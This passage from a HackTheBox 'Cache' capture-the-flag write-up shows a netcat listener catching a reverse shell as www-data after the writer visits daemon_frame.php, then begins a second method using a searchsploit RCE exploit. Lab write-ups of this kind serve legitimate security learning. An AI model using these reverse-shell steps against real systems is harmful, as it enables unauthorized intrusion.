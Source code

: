 ![Visiting daemon_frame.php](/assets/htb/Cache/rev-trigger.png)

Now that we have visited `daemon_frame.php`, let us check back on our listener, which we have setup earlier on.

```bash
root@darkness:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.188.
Ncat: Connection from 10.10.10.188:37214.
bash: cannot set terminal process group (2036): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$
```

We successfully got a shell as `www-data`!

### Way 2: Exploit script

Upon revisiting the box, I stumbled upon a RCE exploit directly on `searchsploit`.
